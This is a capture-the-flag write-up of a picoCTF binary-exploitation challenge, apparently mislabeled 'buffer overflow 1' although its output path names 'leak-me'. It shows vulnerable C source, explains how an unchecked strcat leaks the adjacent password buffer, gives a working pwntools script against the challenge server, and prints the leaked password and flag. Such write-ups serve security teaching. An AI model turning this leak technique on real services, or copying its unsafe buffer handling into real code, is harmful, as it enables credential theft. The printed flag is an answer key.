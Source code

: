 # buffer overflow 1
Binary Exploitation, 200 points

## Description:
> Can you authenticate to this service and get the flag? Connect with nc 2018shell3.picoctf.com 57659. 

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

int flag() {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  printf("%s", flag);
  return 0;
}


int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  
  // real pw: 
  FILE *file;
  char password[64];
  char name[256];
  char password_input[64];
  
  memset(password, 0, sizeof(password));
  memset(name, 0, sizeof(name));
  memset(password_input, 0, sizeof(password_input));
  
  printf("What is your name?\n");
  
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }

  strcat(name, ",\nPlease Enter the Password.");

  file = fopen("password.txt", "r");
  if (file == NULL) {
    printf("Password File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);

  fgets(password_input, sizeof(password_input), stdin);
  password_input[sizeof(password_input)] = '\x00';
  
  if (!strcmp(password_input, password)) {
    flag();
  }
  else {
    printf("Incorrect Password!\n");
  }
  return 0;
}


```

## Solution:

This program reads a name from the user into a buffer of 256 bytes, followed by a password read from a file into another local buffer. It then reads a password from the user, and if the user password matches the correct password - outputs the flag.

According to the name of the challenge, we need to leak the correct password.

Let's inspect the code part after part.

The first part reads the name from the user and appends a NULL terminator, if needed:
```c
  fgets(name, sizeof(name), stdin);
  char *end = strchr(name, '\n');
  if (end != NULL) {
    *end = '\x00';
  }
```

The buffer size is 256 bytes, and `fgets` indeed reads here up to 256 bytes (`sizeof(name)`). No problem here.

What comes immediately later seems a bit more problematic:
```c
strcat(name, ",\nPlease Enter the Password.");
```

A string is appended to the name, without checking the buffer bounds. Therefore, if we supply a name of length 255, the `strcat` will append a 27-byte-long string to it, creating a consecutive buffer of 255+27 characters followed by a NULL terminator. Since `name` only has room for 256 characters, part of the string will be in fact stored in the `password` buffer.

Why is this important? Since a few lines later, the `password` buffer is populated with the real password, followed by a call to `puts` to print the name:
```c
  fgets(password, sizeof(password), file);

  printf("Hello ");
  puts(name);
```

Since no NULL terminator is separating between the name and the password (the `strcat` operation moved it from the `name` buffer to the `password` buffer), printing the name will in fact continue and print out the password as well, as one consecutive string.

Therefore, in order to leak the flag, we just need to enter a 255-byte name:

```python
from pwn import *

NAME_BUFFER_LENGTH = 256

def login(name, password):
    r = remote("2018shell3.picoctf.com", 57659)
    r.sendlineafter("What is your name?", name)
    out = r.recv(timeout = 5)
    r.sendline(password)
    return r.recvall()


leak = login("A" * NAME_BUFFER_LENGTH, "Fake Password")
password = leak.split(",")[1].replace("Incorrect Password!", "").rstrip()
log.info("Password: {}".format(password))

print login("Fake Name", password)
```

Output:
```console
root@kali:/media/sf_CTFs/pico/leak-me# python exploit.py
[+] Opening connection to 2018shell3.picoctf.com on port 57659: Done
[+] Receiving all data: Done (315B)
[*] Closed connection to 2018shell3.picoctf.com port 57659
[*] Password: a_reAllY_s3cuRe_p4s$word_56b977
[+] Opening connection to 2018shell3.picoctf.com on port 57659: Done
[+] Receiving all data: Done (91B)
[*] Closed connection to 2018shell3.picoctf.com port 57659
Hello Fake Name,
Please Enter the Password.
picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_2b5cbbaa}
```

The flag: picoCTF{aLw4y5_Ch3cK_tHe_bUfF3r_s1z3_2b5cbbaa}

